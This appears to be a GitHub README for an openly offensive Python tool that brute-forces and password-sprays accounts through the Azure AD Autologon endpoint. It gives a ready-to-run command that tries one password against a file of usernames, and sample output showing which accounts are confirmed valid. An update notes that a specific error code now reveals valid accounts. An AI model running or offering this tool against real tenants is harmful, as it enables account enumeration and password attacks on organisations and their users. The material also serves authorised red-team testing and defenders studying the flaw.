 # AzureAD_Autologon_Brute
Brute force attack tool for Azure AD Autologon 

https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/


## Update - 2024.02.21 ##
The AADSTS81016 that people were reporting now seems to indicate a valid account.

Thanks to @rootsecdev for validating that password spray functionality still works!





```
Usage:
python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
```


```
[~/AzureAD_Autologon_Brute] # python3 azuread_autologon_brute.py -d intranet.directory -U users.txt -p Password1
Domain is  intranet.directory
Setting password as: Password1
Reading users from file: users.txt

+-----------------------------------------+
|          AzureAD AutoLogon Brute          |
|     2021.09.30 @nyxgeek - TrustedSec      |
+-----------------------------------------+

[-] Username not found:wumpus@intranet.directory:Password1
[+] VALID USERNAME, invalid password :stephen.falken@intranet.directory:Password1
[-] Username not found:grand.poobah@intranet.directory:Password1
[-] Username not found:thewiz@intranet.directory:Password1
[-] Username not found:bingobongo@intranet.directory:Password1
[-] Username not found:administrator@intranet.directory:Password1
[+] VALID USERNAME, invalid password :david.lightman@intranet.directory:Password1
[-] Username not found:fakeuser123@intranet.directory:Password1
[+] VALID USERNAME, invalid password :nyxgeek@intranet.directory:Password1
[-] Username not found:jabberwocky@intranet.directory:Password1

```
